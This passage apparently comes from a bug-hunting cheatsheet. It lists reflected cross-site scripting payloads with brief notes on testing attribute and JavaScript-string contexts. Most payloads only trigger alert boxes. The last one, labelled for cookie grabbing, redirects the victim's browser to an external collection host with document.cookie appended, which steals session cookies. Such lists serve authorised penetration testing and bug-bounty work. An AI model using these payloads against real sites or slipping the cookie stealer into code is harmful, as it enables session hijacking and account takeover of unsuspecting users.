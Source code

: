 #### For testing.
```js
<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
">cyborg71<script>alert(1337)</script> >> DOM XSS in document.write sink using source location.search
<img src=x onerror=alert('XSS')>
<a href="javascript:alert('XSS')">Click me</a>
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
### Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
```js
<xss>'"
xss';alert(1);'xss
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
